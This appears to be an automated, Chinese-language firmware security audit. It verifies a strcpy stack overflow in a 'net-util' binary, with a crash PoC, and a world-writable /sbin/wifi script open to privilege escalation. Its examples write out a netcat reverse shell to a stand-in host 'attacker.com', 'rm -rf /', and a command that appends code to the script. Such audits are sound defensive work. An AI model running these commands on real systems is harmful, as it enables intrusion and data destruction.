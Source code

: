 ## 验证结论

- **描述准确性：** `partially`
- **是否为真实漏洞：** `True`
- **风险级别：** `Medium`
- **详细原因：** 安全警报描述的核心漏洞存在但部分不准确：1. 缓冲区溢出确实发生在 fcn.0000bfb0 的 strcpy 调用中（地址 0x0000c000），dest 为栈指针（sp），src 为参数 arg1（即 argv[1]）。栈分配了 0x20（32）字节，而非警报中所述的约16字节。2. 输入可控性验证：调用者 fcn.0000cc8c（地址 0x0000cd60）传递 argv[1] 给 fcn.0000bfb0，且当 argc==3 时路径可达（地址 0x0000ccd8 的检查），攻击者可通过命令行参数控制输入。3. 实际影响：溢出可覆盖栈上保存的返回地址（push {r4,r5,r6,lr}），导致任意代码执行或拒绝服务。攻击者模型为本地用户（无 setuid 位，权限 -rwxrwxrwx），故无特权提升，但可在用户上下文中执行代码。4. 完整攻击链：攻击者执行 `net-util <长字符串> <outfile>`，其中长字符串超过32字节（如40字节）即可触发溢出。PoC: `net-util $(python -c 'print "A"*40') /tmp/out` 可导致崩溃。其他调用者（如 fcn.0000d670、fcn.0000d9e4）也存在类似问题，但 fcn.0000cc8c 路径已足够验证漏洞。风险级别为中等，因无特权提升，但可导致用户上下文代码执行或服务中断。

## 验证指标

- **验证时长：** 261.81 秒
- **Token 使用量：** 289561

---

## 原始信息

- **文件/目录路径：** `sbin/wifi`
- **位置：** `sbin/wifi (文件权限)`
- **描述：** 文件 '/sbin/wifi' 具有全局读写执行权限（-rwxrwxrwx），允许任何用户（包括非root用户）修改脚本内容。攻击者可以插入恶意代码（如反向 shell 或命令执行），当脚本由特权用户（如 root）执行时（例如通过系统管理任务或网络配置操作），会导致权限提升。触发条件：攻击者修改脚本后，等待或触发脚本执行（如通过 'wifi' 命令）。利用方式：直接编辑脚本插入恶意 payload。这是一个完整且可验证的攻击链：非root用户修改文件 → 脚本由 root 执行 → 权限提升。
- **代码片段：**
  ```
  文件权限: -rwxrwxrwx
  脚本内容示例（可被修改）:
  #!/bin/sh
  # 恶意代码示例: 如果攻击者插入 'rm -rf /' 或 'nc -e /bin/sh attacker.com 4444'
  ...
  ```
- **备注：** 需要验证脚本是否在特权上下文中执行（如由 root 调用）。建议检查系统进程或服务如何调用此脚本。后续可分析调用此脚本的组件（如 init 脚本或 Web 接口）。攻击者是已连接到设备并拥有有效登录凭据的非root用户，符合核心要求。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 证据支持警报描述：文件权限 '-rwxrwxrwx' 允许非root用户修改脚本内容；脚本为可执行 shell 脚本。攻击者模型为非root用户（已登录设备）。完整攻击链验证：1) 非root用户编辑文件（例如使用 `echo '恶意代码' >> /sbin/wifi` 插入如 `nc -e /bin/sh attacker.com 4444` 的反向 shell）；2) 脚本由特权用户（如 root）执行（基于脚本位于 '/sbin' 系统目录，常见于系统管理任务，如通过 init 脚本、Web 接口或直接命令调用）；3) 恶意代码以 root 权限运行，实现权限提升。PoC 步骤：非root用户修改脚本后，等待或触发系统事件（如网络配置更改或重启）导致 root 执行脚本。实际影响为完整权限提升，因此漏洞真实存在且风险高。

## 验证指标
